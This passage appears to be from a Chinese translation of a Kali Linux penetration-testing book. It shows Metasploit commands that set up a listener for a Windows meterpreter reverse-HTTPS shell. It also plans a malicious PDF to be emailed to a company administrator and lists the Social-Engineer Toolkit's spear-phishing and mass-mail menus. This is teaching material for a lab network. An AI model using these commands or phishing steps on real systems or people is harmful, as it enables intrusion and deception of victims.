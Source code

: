 1.  确定本地主机地址，您的侦听器将在该地址上侦听，以便您的恶意软件有东西可以回家。在我们的测试网络中，Kali 服务器正在运行在物理主机上的虚拟机上。当恶意软件呼叫时，主机的 IP 或虚拟机的桥接伪以太网卡必须是目的地。如果您在互联网上从 VMS 机器上运行 Kali，这将稍微困难一些。

1.  以下是测试网络的配置。有两台具有互联网访问权限的机器，以及两台只能从内部网络访问的服务器。Kali 186 是攻击者的笔记本电脑，而 Windows 10 工作站是内部网络的跳板。

1.  一旦您启动了 Metasploit，您需要启动侦听器，这样您即将创建的恶意软件在回家时有东西可以回答。

1.  在 MSF 命令提示符中输入以下命令：

```
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_https
set LHOST 10.0.0.2
set LPORT 4343 exploit  
```

1.  侦听器是一个正在运行的开放进程，因此光标不会返回到就绪状态。为了显示侦听器是活动的，我们可以使用`nmap`对其进行端口扫描：

![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/kali18-win-pentest/img/21521e32-60f1-4665-83d5-deccdcb5c9ac.png)

另一方面，侦听器已经对`nmap`扫描做出了响应，并输出了扫描数据：

![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/kali18-win-pentest/img/f0ff3f00-86bb-4235-a0d8-f2aaf3f0a7da.png)

在下图中，我们可以看到扫描源由侦听器标记，并且所有扫描请求都记录为来自`10.0.2.15`，这是 Kali 机器的内部 IP：

![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/kali18-win-pentest/img/277a7f2e-2df2-41fa-a9ff-c3bfe4bf48cd.png)

我们将要创建的恶意软件将是一个包含在 PDF 文件中的可执行文件。这将作为附件发送到目标公司中一个被确认的系统管理员的电子邮件，该邮件来自一个据称是安全来源的电子邮件。我们将从社会工程工具包的菜单结构开始进行审查。

主菜单有六个条目和一个退出提示：

1.  1）社会工程攻击

1.  2）快速跟踪渗透测试

1.  3）第三方模块

1.  4）更新社会工程师工具包

1.  5）更新 SET 配置

1.  6）帮助、积分和关于

1.  99）退出社会工程工具包

在条目＃1 下，`社会工程攻击`，有 11 个条目：

1.  1）鱼叉式网络钓鱼攻击向量

1.  2）网站攻击向量

1.  3）传染性媒体生成器

1.  4）创建有效载荷和侦听器

1.  5）大规模邮件发送攻击

1.  6）基于 Arduino 的攻击向量

1.  7）无线接入点攻击向量
